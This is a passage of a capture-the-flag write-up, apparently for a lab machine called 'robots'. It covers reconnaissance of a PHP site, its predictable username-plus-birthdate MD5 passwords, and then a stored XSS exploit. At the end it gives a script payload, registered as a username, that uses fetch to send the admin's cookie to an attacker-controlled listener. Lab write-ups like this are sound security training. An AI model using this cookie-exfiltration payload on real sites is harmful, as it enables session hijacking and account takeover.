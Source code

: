 
If we go to `/harm/to/self`, we get redirected to `robots.thm`, let's add it to `/etc/hosts`:

```
echo '10.10.45.12 robots.thm' | sudo tee -a /etc/hosts
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250314141610.png)

If we go to register, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250314141630.png)

We can try registering a username and check the behavior, the way the password gets structured the first time is already told by the page, this is a big hint, let's keep on going, for example, let's create an account with these credentials:

```
testuser:05/05/2000
```

Now, let's try to log in and see the response:

```
echo -n "testuser0505" | md5sum
20baf68c53da16fffc91660efd9ef401
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250314150509.png)

We get a redirection to `index.php`, we can also see something interesting in here:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250314150624.png)

We got something called `server_info`, something way too interesting in here is this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250314150733.png)

For example `allow_url_fopen`, `allow_url_include` and `file_uploads` are enabled, this means that this page could be vulnerable to LFI, let's try to search for a way to exploit this. 

# EXPLOITATION
---

Going back at the register page, I tried registering an username using `xss`, a simple xss payload at the username, then, i tried logging in and this happened:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250314181227.png)

There we go, XSS is possible in this page, we can craft a payload to get admin
cookie and bypass the login page, let's register a username with these credentials:

```
<script>fetch("http://10.6.34.159:8000/?cookie="+document.cookie)</script>:01/01/2000
```
